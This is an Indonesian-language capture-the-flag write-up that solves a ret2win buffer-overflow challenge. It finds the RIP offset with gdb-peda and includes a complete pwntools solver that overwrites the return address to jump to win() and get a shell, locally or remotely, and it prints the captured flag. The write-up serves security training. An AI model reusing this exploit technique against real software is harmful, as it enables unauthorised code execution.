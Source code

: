 # TurboChat: Development

## SOLUTION

1. Pada challenge ini, kita diberikan sebuah binary file dengan arsitektur 64 bit dan tidak di strip.

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/09b3456f-0e48-4dae-ba44-a96325cc4810)


2. Langsung saja kita cek binary protectionsnya:

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/02b94d62-4c72-481c-b18e-4d39453943b3)


3. Diberikan proteksi yang sama seperti challenge yang sebelumnya. Namun kali ini saya tidak men-decompile binary file, saya meng-disass binary filenya.
4. Mengingat tidak di strip, maka kita dapat mengecek semua nama fungsi pada binary file:

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/a6827efe-ef49-4e1d-a2b4-674027ae663f)


5. Terdapat fungsi win(), asumsi saya disini konsep pwn kali ini adalah ret2win.
6. Untuk memastikan hal ini, langsung saja kita disass fungsi win():

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/80c7b9ff-e2ed-4e1c-b9e3-814f923214de) 

7. Meskipun tidak terbaca dengan jelas apakah terdapat strings "/bin/sh" yang digunakan pada argumen fungsi system(), akan tetapi disini saya cukup malas untuk mendecompile binary file.
8. Maka langsung saja saya mencari RIP offset lalu loncat ke fungsi win() , jika tidak mendapatkan shell berarti kita harus melakukan sedikit ROP.

##### NOTES: Dengan berhasil mendapatkan segmentation fault dan mendapatkan offset yang tepat pada RIP, maka kita dapat mengontrol next address yang akan dipanggil di stack.

#### GETTING RIP OFFSET 

9. Untuk mendapatkan offsetnya saya mengirim 1024 bytes menggunakan gdb-peda untuk mendapatkan segmentation fault.
10. Setelah SIGSEGV didapat, saya menjalankan pattern search untuk melihat offset pada RSP.

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/ca35ce49-e859-48c7-a607-5a465641b227)


11. Tidak lupa untuk menambahkan ret gadget setelah padding dengan tujuan untuk melakukan stack alignment.
12. Berikut adalah solver yang saya gunakan:
    
```py
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  
        return process([exe] + argv, *a, **kw)

exe = './chall'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

sh = start()

padding = 40 # offset RIP 

p = flat([
    asm('nop') * padding,
    0x000000000040101a, #  stack align - ret addr
    elf.sym['win'] 
])

sh.sendline(b'1')
sh.sendline(p)
sh.interactive() # get shell
```

13. Saatnya kita tes di local terlebih dahulu:

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/ed0ac567-b962-4732-8f0e-531498ef38b5)


14. Shell berhasil didapat! Langsung saja kita send script remotely.

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/dc439806-1cf9-4a5a-a29a-dc88a4a7fdd6) 


```
ForestyHC{ez_ret2win_n_stack_alignment_just_to_remember_2adf8a}
```


